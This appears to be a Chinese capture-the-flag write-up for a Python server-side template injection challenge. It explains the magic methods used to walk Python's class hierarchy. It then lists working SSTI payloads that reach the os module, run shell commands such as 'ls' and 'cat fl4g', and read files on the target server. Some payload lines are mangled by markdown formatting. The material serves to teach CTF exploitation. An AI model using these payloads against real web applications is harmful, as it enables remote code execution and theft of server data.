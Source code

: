 ## 攻防世界-Web_python_template_injection

python中编写的主流web框架有Django、Tornado、Flask、Twisted。

SSTI （Server-Side Template Injection）服务器端模板注入

### 魔术方法

__class__  返回类型所属的对象
__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__   返回该对象所继承的基类  // __base__和__mro__都是用来寻找基类的

__subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
__init__  类的初始化方法
__globals__  对包含函数全局变量的字典的引用

### 注入方法

1. 输入http://111.200.241.244:52224/{{config}}，发现类似于SQLI中的报错注入，还会显示not found，会显示config的信息 。
    
2. [http://159.138.137.79:56645/](http://159.138.137.79:56645/){{''._______****class****}}得到<type 'str'>，字符串类型嘛。
    
3. [http://159.138.137.79:56645/](http://159.138.137.79:56645/){{''.**class**.**mro**}} <type 'str'>, <type 'basestring'>, <type 'object'>，意思就是‘’继承于str，str继承于basestring，basestring又继承于object
    
4. [http://159.138.137.79:56645/](http://159.138.137.79:56645/){{''.**class**.**mro**[2].**subclasses**()}}得到所有直接（不确定，自己看看，应该是直接）继承object的类
    
5. 联系题目，明显的是后端有一个flag文件需要open，然后print出来，或者使用命令行cat 查看。先去找这个文件，应该在根目录。
    
6. 找到Site_Printer() 位于第72位:所以:**subclasses**()[71]
    
7. [http://159.138.137.79:56645/](http://159.138.137.79:56645/){{''.**class**.**mro**[2].**subclasses**()[71].**init**.**globals**['os'].listdir('./')}}，输出所有当前目录文件名或者''.**class**.**mro**[2].**subclasses**()[71].**init**.**globals**['os'].popen('ls').read()也可
    
    http://159.138.137.79:56645/{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].listdir('./')}}
    http://159.138.137.79:56645/{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}} #执行命令，可用cat
    
    [![image-20210802111910803](https://img2020.cnblogs.com/blog/2348945/202108/2348945-20210802111911763-1839529614.png)](https://img2020.cnblogs.com/blog/2348945/202108/2348945-20210802111911763-1839529614.png)
    
8. 两种读取方式
    
    40对应的是<type 'file'>
    
    http://159.138.137.79:56645/{{''.__class__.__mro__[2].__subclasses__()[40]("fl4g").read()}}
    http://159.138.137.79:56645/{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()}} 
    

参考：[天成的信息安全小站 (cnblogs.com)](https://www.cnblogs.com/SonnyYeung/p/12702179.html)
